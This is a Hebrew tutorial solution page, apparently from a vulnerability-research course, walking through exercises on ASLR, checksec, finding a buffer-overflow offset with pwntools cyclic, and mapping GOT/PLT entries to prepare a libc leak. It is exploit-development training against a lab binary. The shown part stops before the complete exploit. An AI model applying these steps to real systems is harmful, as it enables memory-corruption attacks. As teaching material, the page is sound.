

repository: AmitPinchasi/amittech · page: מחקר-חולשות/4 - עקיפת NX וROP בסיסי/4.4 - דליפת libc ועקיפת ASLR/4.4 - דליפת libc ועקיפת ASLR - פתרון/index.html · generator: mkdocs

## פתרון - libc leak ועקיפת ASLR

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא בסוף. הכתובות בפלט הן דוגמה - אצלכם הן ישתנו בכל הרצה בגלל ASLR, וזה בדיוק העניין. אף פעם אל תעתיקו כתובת libc קבועה לסקריפט; תמיד חשבו אותה מהleak.

### פתרון תרגיל 1 - להוכיח ש-ASLR מזיז את libc

מריצים `ldd` כמה פעמים ורואים בסיס אחר בכל פעם:

```bash
$ ldd ./leak | grep libc
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3a1c400000)
$ ldd ./leak | grep libc
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8e9d200000)
```

בדיקת ההגנות:

```bash
$ checksec --file=./leak
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

מציאת ה-offset עם cyclic:

```python
from pwn import *
context.binary = ELF('./leak')

p = process('./leak')
p.recvuntil(b'overflow me:\n')
p.sendline(cyclic(200))
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8))   # what was on top of the stack at ret
log.info('offset = %d', offset)                 # 72
```

הbuffer 64 ועוד `saved rbp` של 8 נותנים offset 72.

התשובה לשאלת המחשבה: אמנם ה-offset של `system` בתוך libc קבוע, אבל הכתובת הסופית היא `libc_base + offset(system)`, וה-`libc_base` אקראי ונקבע רק בזמן ריצה. לכן אי אפשר לכתוב אותו מראש - חייבים לגלות אותו בהרצה, וזה תפקיד הleak.

### פתרון תרגיל 2 - מיפוי ה-GOT וה-PLT

מוצאים את הכתובות. `objdump -R` מציג את ה-relocations של ה-GOT:

```bash
$ objdump -R leak | grep puts
0000000000404018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5

$ objdump -d leak | grep 'call.*puts'
  1169:  e8 e2 fe ff ff   call  1050 <puts@plt>
```

או, נוח יותר, מ-pwntools:

```python
>>> elf = ELF('./leak')
>>> hex(elf.plt['puts'])
'0x401050'
>>> hex(elf.got['puts'])
'0x404018'
```

עכשיו בודקים ב-gdb מה יש ב-`puts@got` אחרי הקריאה הראשונה. עוצרים על הכניסה ל-`vuln` (אחרי ש-`main` כבר קראה ל-`puts`... למעשה `main` קוראת ל-`vuln` שקוראת ל-`puts`, אז נעצור אחרי ה-`puts` הראשון):

```text
pwndbg> b *vuln+... (after the call to puts)
pwndbg> run
pwndbg> x/gx 0x404018
0x404018 <puts@got.plt>:  0x00007f3a1c480e50
```

הכתובת `0x7f3a1c480e50` יושבת בתוך libc (הבסיס היה `0x7f3a1c400000`, וה-offset של `puts` הוא `0x80e50`). אם עוצרים **לפני** הקריאה הראשונה ל-`puts`, נראה שם כתובת שמצביעה בחזרה ל-PLT stub בתוך הבינארי, לא ל-libc:

```text
pwndbg> x/gx 0x404018
0x404018 <puts@got.plt>:  0x0000000000401036   <-- still points to the PLT, not libc
```

זה בדיוק הלקח: בקישור עצל, הכניסה מתמלאת בכתובת libc האמיתית רק בקריאה הראשונה. לכן נדליף רק פונקציה שכבר נקראה - `puts` מושלמת.
